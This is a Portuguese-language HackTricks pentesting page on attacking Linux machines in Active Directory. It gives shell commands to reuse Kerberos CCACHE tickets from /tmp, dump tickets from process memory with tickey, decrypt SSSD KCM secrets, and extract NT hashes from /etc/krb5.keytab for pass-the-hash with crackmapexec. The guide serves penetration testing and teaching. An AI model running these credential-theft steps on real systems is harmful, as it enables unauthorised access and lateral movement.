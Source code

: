 # Linux Active Directory

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% embed url="https://websec.nl/" %}

Uma máquina linux também pode estar presente em um ambiente Active Directory.

Uma máquina linux em um AD pode estar **armazenando diferentes tickets CCACHE dentro de arquivos. Esses tickets podem ser usados e abusados como qualquer outro ticket kerberos**. Para ler esses tickets, você precisará ser o usuário proprietário do ticket ou **root** dentro da máquina.

## Enumeração

### Enumeração AD a partir do linux

Se você tiver acesso a um AD no linux (ou bash no Windows), pode tentar [https://github.com/lefayjey/linWinPwn](https://github.com/lefayjey/linWinPwn) para enumerar o AD.

Você também pode verificar a seguinte página para aprender **outras maneiras de enumerar o AD a partir do linux**:

{% content-ref url="../../network-services-pentesting/pentesting-ldap.md" %}
[pentesting-ldap.md](../../network-services-pentesting/pentesting-ldap.md)
{% endcontent-ref %}

### FreeIPA

FreeIPA é uma **alternativa** de código aberto ao **Active Directory** da Microsoft, principalmente para ambientes **Unix**. Ele combina um **diretório LDAP** completo com um Centro de Distribuição de Chaves **Kerberos** do MIT para gerenciamento semelhante ao Active Directory. Utilizando o **Sistema de Certificados Dogtag** para gerenciamento de certificados CA e RA, suporta autenticação **multifatorial**, incluindo cartões inteligentes. O SSSD está integrado para processos de autenticação Unix. Saiba mais sobre isso em:

{% content-ref url="../freeipa-pentesting.md" %}
[freeipa-pentesting.md](../freeipa-pentesting.md)
{% endcontent-ref %}

## Brincando com tickets

### Pass The Ticket

Nesta página, você encontrará diferentes lugares onde pode **encontrar tickets kerberos dentro de um host linux**, na página seguinte você pode aprender como transformar esses formatos de tickets CCache para Kirbi (o formato que você precisa usar no Windows) e também como realizar um ataque PTT:

{% content-ref url="../../windows-hardening/active-directory-methodology/pass-the-ticket.md" %}
[pass-the-ticket.md](../../windows-hardening/active-directory-methodology/pass-the-ticket.md)
{% endcontent-ref %}

### Reutilização de ticket CCACHE de /tmp

Os arquivos CCACHE são formatos binários para **armazenar credenciais Kerberos** e geralmente são armazenados com permissões 600 em `/tmp`. Esses arquivos podem ser identificados pelo seu **formato de nome, `krb5cc_%{uid}`,** correlacionando ao UID do usuário. Para verificação do ticket de autenticação, a **variável de ambiente `KRB5CCNAME`** deve ser definida para o caminho do arquivo de ticket desejado, permitindo sua reutilização.

Liste o ticket atual usado para autenticação com `env | grep KRB5CCNAME`. O formato é portátil e o ticket pode ser **reutilizado definindo a variável de ambiente** com `export KRB5CCNAME=/tmp/ticket.ccache`. O formato do nome do ticket Kerberos é `krb5cc_%{uid}` onde uid é o UID do usuário.
```bash
# Find tickets
ls /tmp/ | grep krb5cc
krb5cc_1000

# Prepare to use it
export KRB5CCNAME=/tmp/krb5cc_1000
```
### Reutilização de tickets CCACHE do keyring

**Tickets Kerberos armazenados na memória de um processo podem ser extraídos**, particularmente quando a proteção ptrace da máquina está desativada (`/proc/sys/kernel/yama/ptrace_scope`). Uma ferramenta útil para esse propósito pode ser encontrada em [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey), que facilita a extração injetando em sessões e despejando tickets em `/tmp`.

Para configurar e usar esta ferramenta, os passos abaixo são seguidos:
```bash
git clone https://github.com/TarlogicSecurity/tickey
cd tickey/tickey
make CONF=Release
/tmp/tickey -i
```
Este procedimento tentará injetar em várias sessões, indicando sucesso ao armazenar os tickets extraídos em `/tmp` com uma convenção de nomenclatura de `__krb_UID.ccache`.

### Reutilização de tickets CCACHE do SSSD KCM

O SSSD mantém uma cópia do banco de dados no caminho `/var/lib/sss/secrets/secrets.ldb`. A chave correspondente é armazenada como um arquivo oculto no caminho `/var/lib/sss/secrets/.secrets.mkey`. Por padrão, a chave só é legível se você tiver permissões de **root**.

Invocar \*\*`SSSDKCMExtractor` \*\* com os parâmetros --database e --key irá analisar o banco de dados e **descriptografar os segredos**.
```bash
git clone https://github.com/fireeye/SSSDKCMExtractor
python3 SSSDKCMExtractor.py --database secrets.ldb --key secrets.mkey
```
O **blob de cache de credenciais Kerberos pode ser convertido em um arquivo CCache Kerberos utilizável** que pode ser passado para Mimikatz/Rubeus.

### Reutilização de ticket CCACHE a partir de keytab
```bash
git clone https://github.com/its-a-feature/KeytabParser
python KeytabParser.py /etc/krb5.keytab
klist -k /etc/krb5.keytab
```
### Extrair contas de /etc/krb5.keytab

As chaves de contas de serviço, essenciais para serviços que operam com privilégios de root, são armazenadas de forma segura nos arquivos **`/etc/krb5.keytab`**. Essas chaves, semelhantes a senhas para serviços, exigem estrita confidencialidade.

Para inspecionar o conteúdo do arquivo keytab, pode-se empregar **`klist`**. A ferramenta é projetada para exibir detalhes da chave, incluindo o **NT Hash** para autenticação de usuários, particularmente quando o tipo de chave é identificado como 23.
```bash
klist.exe -t -K -e -k FILE:C:/Path/to/your/krb5.keytab
# Output includes service principal details and the NT Hash
```
Para usuários do Linux, **`KeyTabExtract`** oferece funcionalidade para extrair o hash RC4 HMAC, que pode ser utilizado para reutilização do hash NTLM.
```bash
python3 keytabextract.py krb5.keytab
# Expected output varies based on hash availability
```
No macOS, **`bifrost`** serve como uma ferramenta para análise de arquivos keytab.
```bash
./bifrost -action dump -source keytab -path /path/to/your/file
```
Utilizando as informações de conta e hash extraídas, conexões com servidores podem ser estabelecidas usando ferramentas como **`crackmapexec`**.
```bash
crackmapexec 10.XXX.XXX.XXX -u 'ServiceAccount$' -H "HashPlaceholder" -d "YourDOMAIN"
```
## Referências

* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
* [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory)

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}
